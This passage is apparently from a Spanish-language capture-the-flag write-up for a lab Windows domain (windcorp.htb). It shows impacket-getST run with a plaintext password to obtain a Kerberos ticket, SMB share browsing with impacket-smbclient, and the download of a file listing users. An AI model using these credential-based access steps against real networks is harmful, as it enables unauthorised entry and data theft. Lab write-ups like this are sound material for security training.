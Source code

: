 ```null
56775/tcp open  unknown
60395/tcp open  unknown
62054/tcp open  unknown
MAC Address: 00:15:5D:10:93:01 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 39.73 seconds
```

Obtengo en mi equipo el TGT para poder enumerar el SMB o incluso conectarme por WINRM

```null
proxychains impacket-getST -dc-ip 192.168.0.2 -spn cifs/hope.windcorp.htb 'windcorp/ray.duncan:pantera'
export KRB5CCNAME=ray.duncan.ccache
```

Listo los recursos compartidos

```null
proxychains impacket-smbclient -k -no-pass hope.windcorp.htb
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
WC-Share
# use WC-Share
# ls
drw-rw-rw-          0  Mon May  2 10:33:07 2022 .
drw-rw-rw-          0  Mon Apr  3 12:57:58 2023 ..
drw-rw-rw-          0  Mon Apr  3 15:02:25 2023 temp
# cd temp
# ls
drw-rw-rw-          0  Mon Apr  3 15:02:25 2023 .
drw-rw-rw-          0  Mon May  2 10:33:07 2022 ..
-rw-rw-rw-         88  Mon Apr  3 15:02:25 2023 debug-users.txt
# get debug-users.txt
```

Obtengo varios usuarios

```null
cat debug-users.txt
IvanJennings43235345
MiriamMills93827637
BenjaminHernandez23232323
RayDuncan9342211
```
